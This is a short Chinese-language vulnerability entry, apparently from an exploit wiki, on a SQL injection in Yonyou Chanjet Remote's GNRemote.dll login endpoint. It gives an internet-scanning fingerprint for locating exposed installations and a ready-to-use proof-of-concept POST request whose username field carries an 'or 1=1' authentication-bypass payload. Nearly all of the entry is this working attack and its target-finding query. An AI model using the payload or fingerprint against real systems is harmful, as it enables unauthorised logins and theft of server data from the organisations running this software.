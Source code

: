 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

<a-checkbox checked>用友 畅捷通远程通</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="远程通CHANJET_Remote" </a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1664803780708-4fd98949-6c9a-4dca-9c06-9ff70231516f.png)

验证POC

```sql
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![img](/assets/PeiQi-Wiki/img/1664803838437-475c0c08-3cf2-482d-afbd-2c703ef58475.png)
![img](/assets/PeiQi-Wiki/img/1664803846559-8bf28c7c-a65a-4aca-8188-839f57a401d3.png)